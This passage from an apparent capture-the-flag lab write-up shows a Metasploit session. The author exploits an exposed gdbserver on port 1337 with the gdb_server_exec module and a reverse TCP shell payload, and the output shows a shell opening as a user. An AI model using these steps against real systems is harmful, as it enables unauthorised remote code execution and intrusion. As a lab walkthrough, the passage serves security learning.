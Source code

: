 
    Interact with a module by name or index. For example info 1, use 1 or use exploit/linux/local/ptrace_sudo_token_priv_esc

    msf6 > use 0
    [*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
    msf6 exploit(multi/gdb/gdb_server_exec) >



I'll configure it by setting the `rhosts`, `rport`, and `lhost`:



    msf6 exploit(multi/gdb/gdb_server_exec) > options

    Module options (exploit/multi/gdb/gdb_server_exec):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXE_FILE  /bin/true        no        The exe to spawn when gdbserver is not attached to a process.
       RHOSTS    10.10.11.125     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
       RPORT     1337             yes       The target port (TCP)


    Payload options (linux/x64/shell_reverse_tcp):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  tun0             yes       The listen address (an interface may be specified)
       LPORT  4444             yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       1   x86_64 (64-bit)



Running it returns a shell:



    msf6 exploit(multi/gdb/gdb_server_exec) > run

    [*] Started reverse TCP handler on 10.10.14.6:4444 
    [*] 10.10.11.125:1337 - Performing handshake with gdbserver...
    [*] 10.10.11.125:1337 - Stepping program to find PC...
    [*] 10.10.11.125:1337 - Writing payload at 00007ffff7fd0103...
    [*] 10.10.11.125:1337 - Executing the payload...
    [*] Command shell session 1 opened (10.10.14.6:4444 -> 10.10.11.125:58140 ) at 2022-04-20 20:38:51 +0000

    id
    uid=1000(user) gid=1000(user) groups=1000(user)



## Shell as root
